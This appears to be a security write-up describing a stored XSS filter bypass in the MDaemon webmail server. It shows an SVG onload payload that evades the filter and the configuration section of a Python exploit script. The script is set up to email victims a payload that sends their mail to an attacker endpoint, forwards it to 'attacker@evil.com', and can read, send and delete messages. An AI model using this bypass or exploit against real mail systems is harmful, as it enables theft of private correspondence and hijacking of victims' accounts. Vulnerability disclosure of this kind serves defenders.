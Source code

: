 The Mdeamon server serves the XSS content with an error method.

The XSS filter don't deal well with the "<!----" as the attribute of the html element which can bypass the XSS filter. We can bypass the filter in this way:

<svg <!----test----="" onload="alert(123)">

Once the victim opens the mail with the malicious payload, the code that the attacker injected will run immediately. 

**Exploit:**

This is exploit which will send from attackers email a malicious email to the victim with a payload that will send back the attacker the victim's mails.
```python
#coding=utf-8

from email.header import Header
from email.mime.text import MIMEText
from email.utils import parseaddr, formataddr
from email.mime.multipart import MIMEMultipart
from email.mime.application import MIMEApplication
import smtplib

#---------------------------setting--------------------------------#
# the attacker's email info #Test with MDaemon email
mail_host="test.com"            
mail_user="attacker@test.com"     
mail_pass="Password123"             

# set the victorm
victim = "victim@test.com"      #MDaemon Email    maildomin.com:3000

# set the keywords
keywords_receive = "[]"  
keywords_send = "[]"  
keywords_delete = "[]"  
keywords = "[]"

# set the max count
max_count_recevie = 300
max_count_send = 300
max_count_delete = 300

# set the browser, chrome has some errors when use svg.
# in fact,this is no needed. We can put two payloads together in the email.
browser = 'others'  #['chrome','others']


# set the receiver's server.
xss_platform = 'http://192.168.142.132/receiveinfo/message_receive.php'

# email forward
ForwardingAddress = 'attacker@evil.com'

#MITM attack
send_attack_to_who = 'last@test.com'
Subject = 'title Hello!'
body = 'This is body!!!'

# open different functions
function = ['forwarding','contact','receive','send','delete']
#function = ['test']


sent_content = "THe email content!!!!"
```